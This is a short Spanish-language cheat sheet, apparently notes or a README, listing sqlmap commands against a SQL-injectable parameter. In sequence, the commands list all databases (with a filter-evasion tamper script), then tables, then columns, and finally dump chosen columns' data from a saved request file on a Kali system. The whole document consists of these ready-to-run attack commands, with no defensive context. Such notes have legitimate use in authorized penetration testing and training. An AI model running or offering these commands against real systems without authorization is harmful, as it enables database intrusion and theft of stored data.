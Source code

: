 ## Comandos básicos de la herramienta SQLMAP

#### DB


//Devuelve todas las bases de datos

sqlmap -r /home/kali/sqli.txt -v 3 -p parametro_vuln --dbs --tamper=space2comment

#### Tabla

//Devuelve las tablas de una DB específica

sqlmap -r /home/kali/sqli.txt -v 3 -p parametro_vuln -D DB_name --tables

#### Columnas

//Devuelve las columnas de una DB y tabla específica

sqlmap -r /home/kali/sqli.txt -v 3 -p parametro_vuln -D DB_name -T Table_name --columns

#### Datos

//Devuelve los DATOS de una columna específica

sqlmap -r /home/kali/sqli.txt -v 3 -p parametro_vuln -D DB_name -T Table_name  --dump -C name,name,name
